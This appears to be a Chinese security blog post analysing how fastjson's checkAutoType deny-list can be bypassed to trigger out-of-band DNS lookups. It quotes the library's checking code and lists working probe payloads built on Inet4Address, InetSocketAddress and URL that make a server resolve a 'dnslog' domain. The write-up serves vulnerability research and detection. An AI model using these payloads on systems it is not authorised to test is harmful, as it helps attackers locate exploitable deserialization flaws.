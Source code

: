 ```yaml
---
title: "fastjson dns"
author: ["4shen0ne"]
tags: ["poc", "fastjson"]
draft: false
---
```


## 方法一：java.net.Inet[4|6]Address {#方法一-java-dot-net-dot-inet-4-6-address}

以下两个类没有在黑名单中(v1.2.67)，可以用来发送 dns 请求

```java
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
```

fastjson 在进行反序列化的过程中会执行 checkAutoType 方法对类进行检查（主要通过黑
白名单机制），相关代码如下：

```java
public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
    ...
    Class clazz;

    // 1.当打开了 autoTypeSupport，类名又不在白名单时，则进行黑名单检查
    if (!internalWhite && (this.autoTypeSupport || expectClassFlag)) {
        hash = h3;

        for(mask = 3; mask < className.length(); ++mask) {
            hash ^= (long)className.charAt(mask);
            hash *= 1099511628211L;
            ....
            if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null && Arrays.binarySearch(this.acceptHashCodes, fullHash) < 0) {
                throw new JSONException("autoType is not support. " + typeName);
            }
        }
    }


    clazz = TypeUtils.getClassFromMapping(typeName);
    if (clazz == null) {
        // 2. fastjson 的 ParserConfig 类自己维护了一个 IdentityHashMap，在这个 HashMap 中的类会被认为是安全的，会直接被返回
        clazz = this.deserializers.findClass(typeName);
    }

    if (clazz == null) {
        clazz = (Class)this.typeMapping.get(typeName);
    }

    if (internalWhite) {
        clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, true);
    }

    if (clazz != null) {
        if (expectClass != null && clazz != HashMap.class && !expectClass.isAssignableFrom(clazz)) {
            throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
        } else {
            // 3. 直接返回，不再走下面的 autoTypeSupport 和黑名单检查
            return clazz;
        }
    } else {
        // 4. 不开启 autoType 时进行的黑名单检查
        if (!this.autoTypeSupport) {
            hash = h3;

            for(mask = 3; mask < className.length(); ++mask) {
                char c = className.charAt(mask);
                hash ^= (long)c;
                hash *= 1099511628211L;
                if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
                ...
            }
        }
    }
    ...
}
```
<div class="src-block-caption">
  <span class="src-block-number">Code Snippet 1:</span>
  com.alibaba.fastjson.parser.ParserConfig#checkAutoType
</div>

由于 Inet4Address 类不在黑名单中，可以通过 1 处的的的黑名单检查，且它存在于
IdentityHashMap 类中，所以在 3 处直接 return，跳过 4 处的检查，所以无论是否开启
AutoType，都可以跳过 checkAutoType 检查

fastjason 对于 Inet4Address 类会使用 MiscCodec 这个 ObjectDeserializer 来反序列化。跟进
发现解析器会取出 val 字段的值赋值给 strVal 变量，并通过
`InetAddress.getByName(strVal)` 进行域名解析


## 方法二：java.net.InetSocketAddress {#方法二-java-dot-net-dot-inetsocketaddress}

java.net.InetSocketAddress 类也在 IdentityHashMap 中，和方法一一样可以无视
checkAutoType，但是要执行 `InetAddress.getByName()` 需要跟着 json 的语法解析过程来构
造 payload

最终得到的畸形 payload 如下：

```text
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}
```


## 方法三：java.net.URL {#方法三-java-dot-net-dot-url}

java.net.URL 类也在 IdentityHashMap 中，同样无视 checkAutoType 检查

这个类的利用思路和 ysoserial 的 URLDNS 一样：向 HashMap 压入一个键值对时，HashMap 需要
获取 key 对象的 hashcode。当 key 对象是一个 URL 对象时，在获取它的 hashcode 期间会调用
getHostAddress 方法获取 host，这个过程域名会被解析

```text
{{"@type":"java.net.URL","val":"http://dnslog"}:"x"}
```

fastjson 解析上述 payload 时，先反序列化出 `URL(http://dnslog)` 对象，然后将
`{URL(http://dnslog):"x"}` 解析为一个 HashMap，最终域名被解析

这个 payload 还有以下变体，原理都相同：

```nil
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://dnslog"}}""}
Set[{"@type":"java.net.URL","val":"http://dnslog"}]
Set[{"@type":"java.net.URL","val":"http://dnslog"}
{{"@type":"java.net.URL","val":"http://dnslog"}:0
```

